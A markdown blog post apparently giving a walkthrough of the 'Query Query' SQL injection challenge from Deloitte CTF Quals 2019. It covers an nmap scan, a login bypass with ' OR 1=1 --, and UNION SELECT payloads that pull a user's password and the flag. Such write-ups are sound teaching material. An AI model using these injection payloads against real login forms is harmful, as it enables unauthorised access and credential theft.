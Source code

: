 ```yaml
---
title: "Deloitte CTF Quals 2019: Query Query 👸🏻"
slug: deloitte-query-query
date: 06/11/2019
---
```


*Query query on the wall.. Who's the fairest of them all? 👸🏻* was a task
labelled web and worth 120 points. It is a standard SQL injection.

![Task Description](/assets/query-query/intro.png)

Let's start with a quick nmap scan:

```
$ nmap 52.56.149.188
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:46 GMT
Nmap scan report for ec2-52-56-149-188.eu-west-2.compute.amazonaws.com (52.56.149.188)
  Host is up (0.0038s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  443/tcp  open     https
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

Just a web application on port 443:

![Web Application](/assets/query-query/web_app.png)

From the title of the challenge, we can imagine that our objective is to
perform an SQL injection. Let's try a very simple payload on the `username`
field of the `/login` page.

![Web Application](/assets/query-query/login.png)

A simple `'` crashes the application, so this field is most likely injectable.

![Web Application](/assets/query-query/crash.png)

Let's try to login as `user`. This particular username may not exist but
it will give us some information on how the application behaves:

```sql
user' OR 1=1 --
```

And we get logged as `TESTIING`.

![TESTIING](/assets/query-query/testiing.png)

*Note: Although it is not accessible via a link or button, a `/logout` route
exists and works.*

Let's try with a username that will most likely not exist:

```sql
does_not_exist' OR 1=1 --
```

We are logged as `TESTIING` again. Maybe the SQL query is very weird and still
manages to get this user. Let's ignore this for now and carry on.

According to the challenge description, the flag is the password of one of the
users stored in the database. Let's see if we can display `TESTIING`'s password.
We are going to use the `UNION SELECT` method, so the first step is to determine
how many columns are queried before our input.

```
whocares' UNION SELECT 1 --
whocares' UNION SELECT 1, 2 --
whocares' UNION SELECT 1, 2, 3 --
```

All these payloads crashes the application.

```sql
whocares' UNION SELECT 1, 2, 3, 4 --
```

This payload does not crash the application and logs us as `2`.

![Logged as 2](/assets/query-query/two.png)

Let's replace the numbers by actual column names. We guess that the `id`
column exists and that the password column is named `password`.

```sql
whocares' UNION SELECT id, password, id, id from users --
```

We are now logged as `monkey28`, which is the password of `TESTIING`.

![Logged as monkey](/assets/query-query/monkey.png)

Let's add a constraint on the password column that matches the flag format:

```sql
whocares' UNION SELECT id, password, id, id from users where password like "dctf%" --
```

And we have our flag!

![The flag](/assets/query-query/flag.png)

Final flag: `dctf{c0m3_0n_3113333n!}`.